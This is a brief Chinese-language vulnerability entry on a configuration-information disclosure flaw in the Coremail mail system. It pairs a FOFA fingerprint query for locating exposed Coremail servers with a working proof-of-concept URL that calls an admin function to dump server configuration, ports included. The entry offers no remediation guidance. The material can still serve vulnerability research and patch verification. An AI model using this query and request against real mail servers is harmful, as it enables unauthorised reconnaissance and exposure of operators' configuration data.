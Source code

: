 # Coremail 配置信息泄露漏洞

##  漏洞描述

Coremail 某个接口存在配置信息泄露漏洞，其中存在端口，配置信息等

## 漏洞影响

> [!NOTE]
>
> Coremail 配置信息泄露漏洞

## FOFA

> [!NOTE]
>
> app="Coremail邮件系统"

## 漏洞复现

POC为

```
http://xxx.xxx.xxx.xxx/mailsms/s?func=ADMIN:appState&dumpConfig=/
```

![](http://wikioss.peiqi.tech/vuln/co-1.png)

## Goby & POC

> [!NOTE]
>
> Coremail configuration information disclosure

![](http://wikioss.peiqi.tech/vuln/co-2.png)